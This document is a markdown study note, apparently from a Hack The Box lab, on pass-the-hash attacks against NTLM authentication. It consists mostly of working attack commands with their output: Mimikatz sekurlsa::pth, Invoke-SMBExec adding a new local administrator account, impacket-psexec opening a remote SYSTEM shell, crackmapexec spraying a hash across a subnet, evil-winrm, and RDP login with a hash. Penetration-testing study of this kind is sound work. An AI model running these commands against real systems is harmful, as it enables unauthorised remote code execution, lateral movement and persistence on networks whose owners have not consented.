 ```yaml
---
title: Pass the Hash
draft: false
tags:
  - pth
---
```

Available when NTLM is being used for authentication. 

NTLM is a single sing-on method that uses a challenge response protocol to verify the user's identity without having to need a password. 

NTLM is still used pretty often since other systems are already using it for authenticatioin.

## PtH Windows
### Mimkatz

`sekurlsa::pth` module can be used for PtH. 

We need:

- `/user`: Username we want to impersonate
- `/rc4` or `/NTLM`: NTLM hash of found password
- `/domain`: Domain the target user belongs to. If we are using local user account, we can use computer name, localhost, or a dot. 
- `/run`: Program we want to run. Default is cmd.exe

```cmd-session
c:\tools> mimikatz.exe privilege::debug "sekurlsa::pth /user:julio /rc4:64F12CDDAA88057E06A81B54E73B949B /domain:inlanefreight.htb /run:cmd.exe" exit
user    : julio
domain  : inlanefreight.htb
program : cmd.exe
impers. : no
NTLM    : 64F12CDDAA88057E06A81B54E73B949B
  |  PID  8404
  |  TID  4268
  |  LSA Process was already R/W
  |  LUID 0 ; 5218172 (00000000:004f9f7c)
  \_ msv1_0   - data copy @ 0000028FC91AB510 : OK !
  \_ kerberos - data copy @ 0000028FC964F288
   \_ des_cbc_md4       -> null
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ *Password replace @ 0000028FC9673AE8 (32) -> null
```


### Invoke-TheHash

https://github.com/Kevin-Robertson/Invoke-TheHash

Powershell.

We can use either **SMB** or **WMI**. 

We need:

- `Target`: Hostname or IP address
- `Username`: Username to use for authentication
- `Domain`: Unnecessary if local account
- `Hash`: NTLM password hash
- `Command`: Default is WMI

Following command use SMB method for command execution and create a new user and add it to the Administrators group. 

```powershell-session
PS c:\htb> cd C:\tools\Invoke-TheHash\
PS c:\tools\Invoke-TheHash> Import-Module .\Invoke-TheHash.psd1
PS c:\tools\Invoke-TheHash> Invoke-SMBExec -Target 172.16.1.10 -Domain inlanefreight.htb -Username julio -Hash 64F12CDDAA88057E06A81B54E73B949B -Command "net user mark Password123 /add && net localgroup administrators mark /add" -Verbose

VERBOSE: [+] inlanefreight.htb\julio successfully authenticated on 172.16.1.10
VERBOSE: inlanefreight.htb\julio has Service Control Manager write privilege on 172.16.1.10
VERBOSE: Service EGDKNNLQVOLFHRQTQMAU created on 172.16.1.10
VERBOSE: [*] Trying to execute command on 172.16.1.10
[+] Command executed with service EGDKNNLQVOLFHRQTQMAU on 172.16.1.10
VERBOSE: Service EGDKNNLQVOLFHRQTQMAU deleted on 172.16.1.10
```

## PtH Linux

On Linux,  we can use impacket's psexec, atexec, and smbexec.

### Impacket PsExec

```shell-session
jadu101@htb[/htb]$ impacket-psexec administrator@10.129.201.126 -hashes :30B3783CE2ABF1AF70F77D0660CF3453

Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Requesting shares on 10.129.201.126.....
[*] Found writable share ADMIN$
[*] Uploading file SLUBMRXK.exe
[*] Opening SVCManager on 10.129.201.126.....
[*] Creating service AdzX on 10.129.201.126.....
[*] Starting service AdzX.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.19044.1415]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```

### Crackmapexec

```shell-session
jadu101@htb[/htb]# crackmapexec smb 172.16.1.0/24 -u Administrator -d . -H 30B3783CE2ABF1AF70F77D0660CF3453

SMB         172.16.1.10   445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:.) (signing:True) (SMBv1:False)
SMB         172.16.1.10   445    DC01             [-] .\Administrator:30B3783CE2ABF1AF70F77D0660CF3453 STATUS_LOGON_FAILURE 
SMB         172.16.1.5    445    MS01             [*] Windows 10.0 Build 19041 x64 (name:MS01) (domain:.) (signing:False) (SMBv1:False)
SMB         172.16.1.5    445    MS01             [+] .\Administrator 30B3783CE2ABF1AF70F77D0660CF3453 (Pwn3d!)
```

If we want to try for local user, use `--local-auth` flag. 


### Evil-Winrm

```shell-session
jadu101@htb[/htb]$ evil-winrm -i 10.129.201.126 -u Administrator -H 30B3783CE2ABF1AF70F77D0660CF3453

Evil-WinRM shell v3.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents>
```


### RDP

```shell-session
jadu101@htb[/htb]$ xfreerdp  /v:10.129.201.126 /u:julio /pth:64F12CDDAA88057E06A81B54E73B949B

[15:38:26:999] [94965:94966] [INFO][com.freerdp.core] - freerdp_connect:freerdp_set_last_error_ex resetting error state
[15:38:26:999] [94965:94966] [INFO][com.freerdp.client.common.cmdline] - loading channelEx rdpdr
...snip...
[15:38:26:352] [94965:94966] [ERROR][com.freerdp.crypto] - @@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
[15:38:26:352] [94965:94966] [ERROR][com.freerdp.crypto] - @           WARNING: CERTIFICATE NAME MISMATCH!           @
[15:38:26:352] [94965:94966] [ERROR][com.freerdp.crypto] - @@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
...SNIP...
```

